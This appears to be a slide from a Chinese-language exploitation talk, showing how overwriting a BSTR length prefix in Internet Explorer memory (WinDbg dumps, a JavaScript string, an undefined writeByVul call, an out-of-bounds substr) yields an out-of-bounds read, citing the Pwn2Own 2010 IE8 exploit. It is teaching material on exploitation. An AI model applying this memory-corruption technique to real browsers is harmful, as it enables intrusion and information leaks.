

# 篡改 BSTR 长度域前缀
var str = “AAAAAAAA”;
0:016> dc 120d0020 l 4
120d0020  00000010 00410041 00410041 00410041  ....A.A.A.A.A.A.

writeByVul(0x120d0020, 0x7ffffff0);

0:016> dc 120d0020 l 4
120d0020  7ffffff0 00410041 00410041 00410041  ....A.A.A.A.A.A.
var outofbounds = str.substr(0x22222200,4);
* Peter Vreugdenhil, “Pwn2Own 2010 Windows 7 Internet Explorer 8 exploit”